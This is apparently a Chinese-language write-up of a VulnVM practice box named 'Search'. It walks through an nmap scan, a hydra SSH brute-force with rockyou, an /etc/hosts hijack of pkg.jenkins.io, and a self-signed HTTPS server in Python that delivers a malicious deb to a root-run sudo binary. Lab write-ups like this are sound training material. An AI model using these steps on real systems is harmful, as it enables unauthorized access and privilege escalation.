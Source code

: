 ```yaml
---
title: "VulnVM-Search"
date: 2025-04-02
categories: 
  - "vulnvm"
tags: 
  - "linux"
  - "vulnvm"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Search  
❯ nmap 192.168.56.136 -sV -A  -p-

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 39:0d:70:e0:55:cb:20:de:ad:f7:10:d8:1f:76:4d:9d (ECDSA)
|_  256 df:e2:94:52:e9:3d:eb:69:2d:b4:a5:a9:2c:3e:63:46 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```

![](./images/image.png)

得到用户名是**support**

## Hydra

```
[root@kali] /home/kali  
❯ hydra -l support -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.136 -I -V
```

![](./images/image-1.png)

得到密码是**liverpool**

![](./images/image-2.png)

## Root

查看**sudo -l**

```
support@debian:~$ sudo -l
Matching Defaults entries for support on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User support may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/check
```

并且这个文件不可读

```
support@debian:~$ file /usr/bin/check
/usr/bin/check: executable, regular file, no read permission
support@debian:~$ ls -al /usr/bin/check
-rwx--x--x 1 root root 548 Mar 27 17:17 /usr/bin/check
```

那就看看运行输出

```
support@debian:~$ sudo /usr/bin/check
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
curl is already the newest version (7.88.1-10+deb12u12).
0 upgraded, 0 newly installed, 0 to remove and 64 not upgraded.
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
apache2 is already the newest version (2.4.62-1~deb12u2).
0 upgraded, 0 newly installed, 0 to remove and 64 not upgraded.
Warning: apt-key is deprecated. Manage keyring files in trusted.gpg.d instead (see apt-key(8)).
gpg: no valid OpenPGP data found.
--2025-04-02 03:01:57-- https://pkg.jenkins.io/debian-stable/binary/jenkins_2.46.1_all.deb
Resolving pkg.jenkins.io (pkg.jenkins.io)... failed: Temporary failure in name resolution.
wget: unable to resolve host address ‘pkg.jenkins.io’
dpkg-deb: error: unexpected end of file in archive magic version number in /root/jenkins_2.46.1_all.deb
dpkg: error processing archive /root/jenkins_2.46.1_all.deb (--install):
 dpkg-deb --control subprocess returned error exit status 2
Errors were encountered while processing:
 /root/jenkins_2.46.1_all.deb
```

看起来他是要去**pkg.jenkins.io**这里下载一个**deb**包，然后安装。

注意到**/etc/hosts**是可以写入的

![](./images/image-3.png)

因此劫持域名

```
support@debian:~$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       debian

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

192.168.56.118  pkg.jenkins.io
```

在本地开启一个**https**的服务，先生成证书，随意输入即可

```
[root@kali] /home/kali/Search  
❯ openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

**python**脚本，注意端口要开在**443**

```
import http.server
import ssl

PORT = 443  # 监听端口
CERT_FILE = "server.pem"  # 证书文件

# 创建 HTTP 服务器
server_address = ("0.0.0.0", PORT)
handler = http.server.SimpleHTTPRequestHandler
httpd = http.server.HTTPServer(server_address, handler)

# 使用 SSLContext 代替 wrap_socket
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile=CERT_FILE)

# 绑定 SSL
httpd.socket = context.wrap_socket(httpd.socket, server_side=True)

print(f"Serving HTTPS on port {PORT}...")
httpd.serve_forever()
```

- [dpkg | GTFOBins](https://gtfobins.github.io/gtfobins/dpkg/#sudo)

根据要求生成恶意**deb**包之后，在**https**服务中注意目录结构

![](./images/image-4.png)

开启服务后，运行**check**

![](./images/image-5.png)

提权成功！可以看到**check**的内容就是远程下载**deb**，然后**dpkg -i** 安装。

## Summary

`User`：网站注释中泄露用户名，尝试ssh登录爆破

`Root`：**hosts**劫持，下载恶意**deb**包得到**root**权限。
